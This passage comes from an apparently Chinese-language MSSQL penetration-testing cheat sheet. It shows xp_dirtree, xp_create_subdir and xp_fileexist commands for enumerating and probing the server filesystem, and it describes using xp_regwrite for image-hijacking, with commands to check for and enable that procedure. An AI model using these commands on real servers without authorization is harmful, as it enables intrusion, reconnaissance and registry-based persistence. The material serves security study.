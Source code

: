 ```mssql
EXEC master..xp_dirtree 'c:\inetpub\wwwroot\',1,1;
    -directory	
        要查询的目录
    -depth
        显示的子目录的深度
    -file
        是否显示子目录中的文件，默认为0，即不显示任何文件，只显示子目录
```

###### ②利用

```mssql
1. 显示C盘所有文件和目录
 	EXEC master..xp_dirtree 'c:\';
2. 显示C盘所有目录
    EXEC master..xp_dirtree 'c:\',1;
3. 显示指定目录下的目录和文件
    EXEC master..xp_dirtree 'C:\inetpub\',1,1;
```

##### d. xp_create_subdir

* 用于创建子目录

```mssql
1. 在C盘下创建test文件夹
	EXEC master..xp_create_subdir 'c:\test';
```

##### e. xp_fileexist

* 判断文件是否存在，返回一行数据，有3个字段(是否为**文件**，是否为**目录**，是否有**父目录**)

```mssql
EXEC master..xp_fileexist 'c:\windows\win.ini';
```

##### f. xp_regwrite

* 用于对注册表进行修改，替换成任意值，造成映像劫持

###### ①前提条件

1. 未禁止注册表编辑(即写入功能)

2. xp_regwrite启用

   1. 查看是否启用

      ```
      select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regwrite'
      ```

   2. 启用

      ```mssql
      EXEC sp_configure 'show advanced options',1
      RECONFIGURE
      EXEC sp_configure 'xp_regwrite',1
      RECONFIGURE
      ```
